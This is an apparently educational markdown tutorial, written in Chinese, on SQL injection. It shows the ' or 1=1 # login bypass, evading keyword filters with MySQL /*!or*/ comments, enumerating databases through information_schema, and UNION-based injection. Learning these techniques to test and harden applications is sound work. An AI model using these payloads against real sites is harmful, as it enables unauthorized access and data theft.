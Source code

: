 
#### 萬能密碼
![](https://i.imgur.com/6FvEIYf.png)
```
SELECT * FROM users WHERE username = '$username' AND password = '$password';
```
Tip:
1. ``--``
2. ``#``
3. ``/**/``

如果``` $username=' or 1=1 #``` 
```
SELECT * FROM users WHERE username = '' or 1=1 #' AND password = '$password';
```
it work!

#### 基本防禦-過濾
過濾敏感字元:' " AND OR SELECT...etc，然後網頁就彈出警告，或網頁卡住
* 基本繞過方法:
    * ```/**/``` 在大多語言裡都代表註釋，在 MySQL 裡也是
    * MySQL 多實作了一種功能，在```/**/```裡加一個驚嘆號，那麼```/*!*/ ```裡的語句還是會被 MySQL 執行
    * 敏感字元用註釋起來，在前面加驚嘆號，這樣在其他語言看來是註解，但 MySQL 會執行
```
SELECT password FROM users WHERE account=‘’ /*!or*/ 1=1#’;   
```
因為過濾的程式以為``or``被註解掉了，所以忽略掉沒過濾到

### 進階SQLi
如果撈任意想要的資料，至少需要三樣東西:
    * 資料庫名 : schema_name
    * 表格名 : table_name
    * 欄位名 : column_name

* information_schema
    * information_schema 是內建的 database，包含了全部 database 的結構信息，E.g. database 名稱(schema_name)、table 名稱(table_name)、column 名稱(column_name)

* 撈資料三步驟
    * 找資料庫名 :
        ```
        SELECT schema_name FROM information_schema.schemata
        ```
    * 找表格名 :
        ```
        SELECT table_name FROM information_schema.tables WHERE table_schema=‘<資料庫名>’
        ```
    * 找欄位名 :
        ```
        SELECT column_name FROM information_schema.columns WHERE table_schema=‘<資料庫名>’ AND table_name=‘<表格名>’
        ```
    * 開始挖資料 :
        ```
        SELECT <欄位名> FROM <表格名>
        ```
### Union Based Injection
使用 UNION 將另一段 SELECT 指令串接在原來指令的後面
``
SELECT * FROM news WHERE id=1 UNION SELECT * FROM news WHERE id=2;
``
    * 語法限制
    UNION 前後兩個 SELECT 所選擇的 column 數量必須一致，否則語法錯誤
    ``SELECT  name,password FROM users WHERE name=‘Bob’ UNION SELECT id,name,password FROM users WHERE name=‘Alice’;``